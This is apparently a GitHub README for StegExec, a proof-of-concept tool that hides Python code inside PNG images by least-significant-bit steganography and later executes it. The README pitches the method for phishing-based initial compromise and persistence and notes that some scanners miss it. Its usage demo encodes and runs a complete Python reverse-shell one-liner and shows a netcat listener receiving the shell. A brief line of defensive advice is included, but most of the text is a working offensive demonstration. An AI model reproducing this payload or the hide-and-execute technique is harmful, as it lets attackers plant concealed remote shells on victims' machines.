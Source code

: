 ## StegExec

This is a PoC of how potentially malicious code may be hidden in an image file (via steganography) to then be executed within an innocent program. Its approach is to change the least-significant bit of an image file to write Python code which can then later be extracted and executed from the encoded image.

Under the right conditions, it is possible to use this approach to gain initial compromise (through phishing) or to establish persistence, so prepare accordingly with tools to check files hidden within images to prevent this sort of attack. Be aware that not all tools (e.g. steghide) support checking PNG files for embedded files, which this tool implements, so to that extent, malicious code can go undetected through this method.

The code is well-documented with verbose output for demonstration purposes. For example, to encode a Python reverse shell:

```bash

$ python stegexec.py -e -f test.py image.png
[*] Script needs an image of at least 1656 pixels for it to fit.
[*] Image is 1189x676 or 803764 pixels.
[*] Script in binary:
 01101001011011010111000001101111011100100111010<SNIP>
[*] Now encoding into image...
[+] Script encoded
[*] Saving message as image_encoded.png
[+] Encoded image saved

$ python stegexec.py -x image_encoded.png
[*] Attempting to read image for script...
[+] Image read OK
[*] Extracting pixel information...
[+] Pixel information extracted.
[*] Decoding script in pixels...
[*] Extracting contents...
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("127.0.0.1",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("bash")

$ python stegexec.py -r image_encoded.png
[*] Attempting to read image for script...
[+] Image read OK
[*] Extracting pixel information...
[+] Pixel information extracted.
[*] Decoding script in pixels...
[*] Executing...

# Setting up a netcat listener, we get a connection
$ nc -lvnp 9001
listening on [any] 9001 ...
connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 42888

```

## About and Usage

This tool was originally made to send, receive, and decode simple messages as images. This project is a PoC of how such a simple concept can be easily weaponized, that's all. I'm not liable for your use of this program.